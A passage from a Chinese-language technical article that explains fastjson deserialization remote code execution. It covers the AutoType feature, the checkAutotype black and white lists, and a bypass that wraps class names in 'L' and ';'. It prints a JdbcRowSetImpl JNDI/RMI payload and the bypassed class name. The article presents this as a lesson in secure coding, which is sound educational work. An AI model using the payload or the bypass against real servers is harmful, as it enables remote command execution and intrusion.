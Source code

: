 

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```



**这就是所谓的远程命令执行漏洞，即利用漏洞入侵到目标服务器，通过服务器执行命令。**



在早期的fastjson版本中（v1.2.25 之前），因为AutoType是默认开启的，并且也没有什么限制，可以说是裸着的。



从v1.2.25开始，fastjson默认关闭了autotype支持，并且加入了checkAutotype，加入了黑名单+白名单来防御autotype开启的情况。



但是，也是从这个时候开始，黑客和fastjson作者之间的博弈就开始了。



因为fastjson默认关闭了autotype支持，并且做了黑白名单的校验，所以攻击方向就转变成了"如何绕过checkAutotype"。



下面就来细数一下各个版本的fastjson中存在的漏洞以及攻击原理，**由于篇幅限制，这里并不会讲解的特别细节，如果大家感兴趣我后面可以单独写一篇文章讲讲细节**。下面的内容主要是提供一些思路，目的是说明写代码的时候注意安全性的重要性。



#### 绕过checkAutotype，黑客与fastjson的博弈


在fastjson v1.2.41 之前，在checkAutotype的代码中，会先进行黑白名单的过滤，如果要反序列化的类不在黑白名单中，那么才会对目标类进行反序列化。



但是在加载的过程中，fastjson有一段特殊的处理，那就是在具体加载类的时候会去掉className前后的`L`和`;`，形如`Lcom.lang.Thread;`。



![15938462506312.jpg](./img/elgD1d5GOiLoxq-Y/1726909520249-8485d750-b287-4c09-a14f-f29322e43b70-061931.jpeg)￼



而黑白名单又是通过startWith检测的，那么黑客只要在自己想要使用的攻击类库前后加上`L`和`;`就可以绕过黑白名单的检查了，也不耽误被fastjson正常加载。



如`Lcom.sun.rowset.JdbcRowSetImpl;`，会先通过白名单校验，然后fastjson在加载类的时候会去掉前后的`L`和`;变成了`com.sun.rowset.JdbcRowSetImpl`。

